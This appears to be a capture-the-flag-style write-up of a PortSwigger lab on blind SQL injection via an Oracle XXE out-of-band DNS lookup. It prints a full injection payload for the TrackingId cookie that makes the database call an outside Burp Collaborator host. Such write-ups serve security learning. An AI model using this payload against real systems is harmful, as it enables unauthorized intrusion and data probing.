

# Write-up: Blind SQL injection with out-of-band interaction
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>
Difficulty: PRACTITIONER  
 

## Lab description

## Steps

### Enumeration

Using burpsuite and capturing a request, in Cookie header, we see that it contains a `TrackingId` parameter, which is vulnerable to blind sql injection according to problem statement.

### Exploitation

Using the SQL Injection Cheat Sheet of PortSwigger at (CheatSheet)[https://portswigger.net/web-security/sql-injection/cheat-sheet]

Found payload for DNS lookup for Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

So, after using `UNION` and `--` for commenting the further SQL query we can exploit this vulnerability.

Final payload will look like this in burpsuite Cookie header
`TrackingId=jnbRf8w3KNa4ISCj'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//uwu7827ldto1jk31e02earqbj2psdh.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;`

I used Burpsuite Collaborator to receive the DNS lookup requests by going to Burp -> Burp Collaborator Client -> Copy to Clipbaord. And then inserted the collaborator URL in the payload and received the results.
I also used `URL encode key-characters` option of burpsuite to quickly encode by payload. So this gave the below results.

Hence, the lab is sovled.

